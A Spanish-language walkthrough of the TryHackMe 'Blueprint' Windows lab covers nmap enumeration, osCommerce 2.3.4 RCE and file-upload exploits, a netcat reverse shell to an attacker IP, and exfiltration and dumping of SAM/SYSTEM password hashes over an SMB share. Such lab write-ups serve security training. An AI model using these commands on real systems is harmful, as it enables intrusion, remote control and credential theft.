

En la maquina Blueprinte tendremos que hackear una windows y escalar privilegios a Administrador, sin el uso de `metasploit` para este caso, tambien se peudes hacer con `metasploit` pero nosotros lo haremos sin ello para que sea mas interesante. 

Created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797)

## Enumeración

Empezamos a enumerar los puertos abiertos con la herramienta `nmap`

```java
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n [IP]
```

`nmap`: Este es el comando para ejecutar la herramienta Nmap desde la línea de comandos.

`-p-`: Este parámetro indica a Nmap que escanee todos los puertos posibles en el host de destino. El guion ("-") es una abreviatura que representa el rango completo de puertos del 1 al 65535.

`--open`: Este parámetro le dice a Nmap que solo muestre los puertos que están abiertos en el resultado del escaneo. Esto ayuda a reducir la cantidad de información que se muestra, centrándose en los puertos accesibles.

`--min-rate 5000`: Aquí, estás configurando la velocidad mínima a la que Nmap enviará paquetes de sondeo al host de destino. En este caso, se ha establecido una tasa de 5000 paquetes por segundo. Un valor alto como este puede acelerar el escaneo, pero también puede aumentar la probabilidad de que el escaneo sea detectado por sistemas de seguridad.

`-vvv`: Esta opción establece un alto nivel de verbosidad y hace que Nmap muestre una salida extremadamente detallada. Cuantas más "v" uses, más detalles se mostrarán en la salida.

`-Pn`: Este parámetro indica a Nmap que no realice un escaneo de ping previo para verificar si el host de destino está activo. En lugar de eso, se asumirá que el host está activo y se procederá a escanear los puertos.

`-n`: De manera similar a la línea de comandos anterior, aquí le dices a Nmap que no realice la resolución de DNS para las direcciones IP. No intentará traducir las direcciones IP a nombres de host.

`[IP]`: Esta es la dirección IP del host que se está escaneando. Es el objetivo del escaneo.

Al terminar el escaneo podemos visualizar los siguientes puertos abiertos:

```java
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack
135/tcp  open  msrpc        syn-ack
139/tcp  open  netbios-ssn  syn-ack
443/tcp  open  https        syn-ack
445/tcp  open  microsoft-ds syn-ack
3306/tcp open  mysql        syn-ack
8080/tcp open  http-proxy   syn-ack
```

De los cuales vamos a enumerar los servicios y versiones que pueden ser explotados o tener alguna vulnerabilidad

```java
❯ nmap -p80,135,139,443,445,3306,8080 -sC -sV -Pn 10.10.243.16 -oN servicesScan -vvv
```

```java
PORT     STATE SERVICE     REASON  VERSION
80/tcp   open  http        syn-ack Microsoft IIS httpd 7.5
|_http-title: 404 - File or directory not found.
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc       syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn syn-ack Microsoft Windows netbios-ssn
443/tcp  open  ssl/http    syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
|_
| tls-alpn: 
|_  http/1.1
|_http-title: Index of /
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
445/tcp  open  Dcr        syn-ack Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql       syn-ack MariaDB (unauthorized)
8080/tcp open  http        syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m45s, deviation: 0s, median: 2m44s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 42598/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 16488/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 52461/udp): CLEAN (Failed to receive data)
|   Check 4 (port 24199/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:0b:85:1c:1f:87 (unknown)
| Names:
|   BLUEPRINT<00>        Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   BLUEPRINT<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02:0b:85:1c:1f:87:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2023-10-31T14:10:20
|_  start_date: 2023-10-31T13:42:52
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-31T14:10:19+00:00
```

### Puerto 80
- En el puerto `80` vamos a exoncontrar una web, pero no tiene nada interesante



### Puerto 443
- Se pone interesante, encontramos un directorio



### Puerto 8080

Al igual que en el puerto 443, encontramos el mismo directorio



Vamos a realizar una busqueda de alguna vulnerabilidad que puede estar relacionada con osCommerce 

```
❯ searchsploit osCommerce 2.3.4
```


Encotramos varias y dos de ellas te permiten ejecutar comandos 

## Explotación

En el siguiente link tienes el github del exploit [osCommerce-2.3.4-Remote-Command-Execution](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution)

Ejecutamos el exploit

```python
 ❯ python3 osCommerce2_3_4RCE.py http://[IP-ATTACKER]:8080/oscommerce-2.3.4/catalog/
```

Obtenemos una shell de la maquina victima



Con la shell que tenemos no hay mucho que se pueda hacer.

Vamos a buscar otro exploit y vemos que tenemos otro que nos permite subir archivos

```
❯ searchsploit osCommerce 2.3.4
```



### Upload file

```python
python2 uploadOsCommerce2.3.4.py -u http://localhost/path/to/osCommerce --auth=admin:admin_password -f shell.php
```

- Para poder hacer uso de este exploit necesitamos las credenciales de la base de datos, navegando tenemos un apartado de la web donde podemos installar uno nuevo. Antes de hacer necesitamos conocer las credenciales que por defecto son: 

- Data base server: `localhost`
- User: `root`
- Data base name: `oscommerce`



`>> Continue >>`



`>> Continue >>`



- Listo, ya la creamos



Ahora con las credenciales `admin:admin` podemos subir un archivo

```java
http://10.10.152.10:8080/oscommerce-2.3.4/catalog/admin/index.php
admin:admin
```
Vamos a subir un `nc.exe` para luego conectarnos con `ncat` 

```python
❯ python2 uploadOsCommerce2.3.4.py -u http://10.10.152.10:8080/oscommerce-2.3.4 --auth=admin:admin -f nc.exe
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 2
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file nc.exe uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.152.10:8080/oscommerce-2.3.4/catalog/admin/nc.exe
```

Para conectarnos desde la maquina victima a nuestra maquina atacanque se puede ejecutar el sigueinte comando

```java
nc -nv [IP-ATTACKER] [Port] -e cmd.exe
```

### nt authority\system

Ejecutamos `nc.exe` desde la primera shell que obtuvimos

```shell
RCE_SHELL$ C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin\nc.exe -nv 10.9.115.196 443 -e cmd.exe      
```

Antes de ejecutar lo anterior debemos ponernos a la escucha con `ncat`  en otra terminal

```java
❯ rlwrap ncat -lnvp 443
```

¡Vamos! tenemos una shell



### Dumping

- Para transferir archivos y dumpear los hashes de la `sam` haremos lo siguiente:

- Primero Vamos a montarnos un servicio `smb` en nuetra maquina atacante.

```java
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```

- Segundo Hacemos una copia de la `sam` y `system`

```java
C:\Users\Administrator\Desktop>reg save hklm\system system
C:\Users\Administrator\Desktop>reg save hklm\sam sam
```



- Tercero, vamos a conectarnos a nuestro servicio compartido de `smb` de nuestra maquina atacante

```java
C:\Users\Administrator\Desktop>net use z: \\10.9.115.196\smbfolder
```

- Cuarto, hacemos una copia de la maquina victima a nuestra maquina atacante



#### dump

- Los tendremos en nuestra maquina atacante y para dumpear tenemos de dos formas.

- Primera

```java
❯ samdump2 system sam
```



- Segunda

```
❯ impacket-secretsdump -sam sam -system system LOCAL
```


